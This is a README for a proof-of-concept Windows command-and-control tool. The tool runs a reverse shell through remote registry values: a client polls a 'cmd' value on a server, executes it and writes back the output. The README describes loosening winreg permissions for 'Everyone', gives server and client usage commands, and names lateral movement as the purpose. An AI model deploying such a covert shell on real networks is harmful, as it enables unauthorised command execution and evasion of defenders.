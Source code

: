 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells are all PoC's and should only be used as such. They have also only been tested in my own lab. They are made to test the ideas for the shells nothing more. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client and server will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for certain users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client checks the "cmd" value at the server, executes it and writes the result to the output value on the server. 
6. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <cmd>        cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
